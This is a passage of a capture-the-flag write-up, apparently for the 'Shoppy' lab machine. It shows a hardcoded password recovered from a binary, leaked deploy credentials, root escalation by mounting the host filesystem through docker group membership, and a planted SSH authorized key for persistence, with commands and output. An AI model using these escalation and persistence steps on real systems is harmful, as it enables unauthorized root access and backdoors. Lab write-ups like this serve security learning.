 but no need to even exfiltrate it to look at it with a proper decompiler  
just looking at it with vi we can see that the correct password is hardcoded  
![sample-pass.png](./sample-pass.png)  

```bash
sudo -u deploy /home/deploy/password-manager
Welcome to Josh password manager!
Please enter your master password: Sample
Access granted! Here is creds !
Deploy Creds :
username: deploy
password: Deploying@pp!
```

### Deploy user 

now that we are deploy we can do some enumeration again
```bash
jaeger@shoppy:~$ su - deploy
Password:
$ bash
deploy@shoppy:~$ id
uid=1001(deploy) gid=1001(deploy) groups=1001(deploy),998(docker)
```

deploy is part of the docker group
```bash
deploy@shoppy:~$ docker images
REPOSITORY   TAG       IMAGE ID       CREATED        SIZE
alpine       latest    d7d3d98c851f   2 months ago   5.53MB
deploy@shoppy:~$ docker run -it -d -v /:/mnt alpine /bin/ash
f799de70b781f234867eb526ca782e3d5a2df8d196954676990b1ab232532a11
deploy@shoppy:~$ docker ps
CONTAINER ID   IMAGE     COMMAND      CREATED         STATUS         PORTS     NAMES
f799de70b781   alpine    "/bin/ash"   4 seconds ago   Up 3 seconds             clever_poitras
deploy@shoppy:~$ docker exec -it clever_poitras /bin/ash
/ # cd /mnt/
```

mounting the filesystem in an alpine container works 
```bash
/mnt/root # wc -c root.txt
33 root.txt
```
I've seen a postgres db earlier, and I'd like to know what it was for  
And I'd also like to understand the golang nonsense
So I'm dropping an authorized key in root real quick to try to understand 
```bash
/mnt/root/.ssh # vi authorized_keys
/mnt/root/.ssh # chmod 400 authorized_keys
```
earlyer I found:
```bash
./ShoppyApp/node_modules/@pm2/io/docker-compose.yml:  postgres:
```